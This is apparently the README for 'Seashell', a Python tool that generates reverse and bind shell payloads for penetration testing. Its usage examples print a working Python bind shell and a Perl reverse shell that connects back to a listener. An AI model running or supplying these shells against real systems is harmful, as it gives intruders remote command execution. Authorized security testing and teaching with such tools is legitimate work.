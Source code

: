 # Seashell
Seashell is a python tool for generating shells on the go!
It uses the database of [revshells.com](https://revshells.com) and offers the same functionality. Only difference being, it's in your terminal!

# Credits
I want to thank @0dayCTF and all the contributors of [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) for making this project possible.

# Installation
Seashell does not use **ANY** external libraries so you can install it in seconds :D
```bash
$ git clone https://github.com/lil-skelly/seashell
[ ]
$ cd seashell && python3 -m pip install .
```

# Usage
```bash
usage: python3 -m seashell [-h] [--verbose] [-os {windows,mac,linux}] [-ip IP] [-p PORT]
                           [-shell {reverse,bind,msfvenom,hoaxshell,listeners}]
                           [-P PAYLOAD] [--interactive]
                           [term]

Seashell is a CLI 'reverse' shell generator utility. Happy hacking!

positional arguments:
  term                  Search term to filter payloads (use list to list payloads).

options:
  -h, --help            show this help message and exit
  --verbose, -V         Sets logging level to [DEBUG]
  -os {windows,mac,linux}
                        Filters results for [given] operating system
  -ip IP                Target IP
  -p PORT, --port PORT  Target port
  -shell {reverse,bind,msfvenom,hoaxshell,listeners}, -S {reverse,bind,msfvenom,hoaxshell,listeners}
                        Filters results for [given] shell type
  -P PAYLOAD, --payload PAYLOAD
                        metasploit payload to use for listener [msfconsole]
  --interactive, -i     Enables interactive mode. Any arguments besides -V will be ignored!
```
## Examples:

Seashell filters your results based on the shell type and OS specified. 

Use `list` as the search `term` on both manual and interactive mode to get a list of all the payloads available, matching the specified OS/Shell type.

If you do not find your desired payloads, it might be because the payload you are looking for is not available for *linux* systems (the default OS used by seashell). ~ Example 3

After finding the ID of the payload you desire to use, you can:
- Repeat the command and use the ID as a search term if in manual mode
- Type `use ID` if in interactive mode

Seashell will then select the appropriate payload.

- Example 1 (manual mode)
```bash
$ python -m seashell -ip localhost -p 1234 -shell bind python
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Python3 Bind         70
[*] PHP Bind             71

$ python -m seashell -ip localhost -p 1234 -shell bind 70
[*] Welcome to the sea of shells! Happy pwning >:)
[+] Using <Python3 Bind>
python3 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
- Example 2 (interactive mode):
```bash
$ python -m seashell -i
[+] Welcome to the sea of shells! Happy pwning >:)
~> Enter the IP: localhost
~> Specify the port (default: 4444): 
~> Filter by OS [LINUX, mac, windows]: 
~> Select payload type [REVERSE, bind, msfvenom, hoaxshell]:  
[SEARCH] perl
[*] Perl                 20
[*] Perl no sh           21
[*] curl                 13
[*] telnet               60
[SEARCH] use 21
[+] Using <Perl no sh>
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Example 3 (payload listing in manual mode)
```bash
$ python -m seashell -ip localhost -os windows -shell hoaxshell list
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Windows CMD cURL     94
[*] PowerShell IEX       95
[*] PowerShell IEX Constr Lang Mode 96
[*] PowerShell Outfile   97
[*] PowerShell Outfile Constr Lang Mode 98
[*] Windows CMD cURL https 99
[*] PowerShell IEX https 100
[*] PowerShell Constr Lang Mode IEX https 101
[*] PowerShell Outfile https 102
[*] PowerShell Outfile Constr Lang Mode https 103
```